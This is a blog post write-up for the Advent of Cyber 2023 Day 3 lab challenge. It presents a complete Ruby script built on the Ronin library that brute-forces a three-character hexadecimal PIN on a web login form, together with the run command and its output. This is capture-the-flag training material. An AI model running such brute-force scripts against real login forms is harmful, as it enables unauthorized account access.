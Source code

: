 ```yaml
---
layout: post
title: Solving Advent of Cyber 2023 Day 3 using Ronin
author: postmodern
tags:
  - adventofcyber
  - adventofcyber2023
  - ctf
  - tryhackme
  - ruby
  - ronin
  - writeup
---
```


This year I decided to try using Ronin to solve the [Advent of Cyber 2023]
challenges. Let's see how far I can get.

The Day 3 challenge involves a basic HTTP form which accepts a three digit PIN
code. The PIN code can contain numeric or uppercase hexadecimal numbers.
The instructions for the challenge recommends using the [crunch] utility to
generate a wordlist file containing every three character combination of
uppercase hexadecimal characters and then use [hydra] to bruteforce the login
form. Instead, we're going to do all of that in a single Ruby script using
Ronin and it's powerful libraries.

First, we will test the HTTP form by intentionally entering an incorrect PIN
code and seeing what the response is. In the Network tab of Chrome DevTools,
we can see a failed login attempt results in a HTTP 302 response with a 
`Location` header of `error.php`. Since we don't know what a valid login
HTTP response looks like, we will have to assume anything that is not a
HTTP 302 redirect to `error.php` can be considered a successful login.

Next we will write a bruteforcing Ruby script which will send every possible
three character combination of numbers and uppercase hexadecimal characters.
To do that we will use the [chars] library, which provides a
[Chars::UPPERCASE_HEXADECIMAL] constant containing characters `0` - `9` and
`A` - `F`. Then we will call the [Chars::CharSet#strings_of_length] method to
generate every three character combination of uppercase hexadecimal characters.
Then we will use [ronin-support] to establish a persistent HTTP connection and
send login requestions until a non-HTTP 302 redirect response is returned.

```ruby
require 'ronin/support'
require 'chars'

include Ronin::Support

wordlist = Chars::UPPERCASE_HEXADECIMAL.strings_of_length(3)

ip   = ARGV[0]
http = http_connect(ip,8000)

response       = http.get('/pin.php')
session_cookie = response['Set-Cookie']

wordlist.each do |pin|
  print_info "Trying #{pin} ..."
  response = http.post('/login.php', form_data: {pin: pin},
                                     cookie:    session_cookie)

  if response.code == '302' && response['Location'] == 'error.php'
    # login failed, keep trying ...
  else
    print_success "Jack Pot! #{pin}"
    exit 0
  end
end
```

Now to run the bruteforcing Ruby script against the target machine IP address.
We will add the `--jit` option to try to speed up our Ruby script as much as
possible.

```shell
$ ruby --jit bruteforce.rb 10.10.185.45
```
and eventually we will hit the correct PIN code:

```
...
[*] Trying 6F2 ...
[*] Trying 6F3 ...
[*] Trying 6F4 ...
[*] Trying 6F5 ...
[+] Jack Pot! 6F5
```

As you can see, Ronin provides you with powerful libraries that can make solving
CTF challenges easy and fun.

[Advent of Cyber 2023]: https://tryhackme.com/room/adventofcyber2023
[crunch]: https://www.kali.org/tools/crunch/
[hydra]: https://www.kali.org/tools/hydra/
[chars]: https://github.com/postmodern/chars.rb#readme
[Chars::UPPERCASE_HEXADECIMAL]: https://rubydoc.info/gems/chars/Chars
[Chars::CharSet#strings_of_length]: https://rubydoc.info/gems/chars/Chars/CharSet#strings_of_length-instance_method
[ronin-support]: https://github.com/ronin-rb/ronin-support#readme
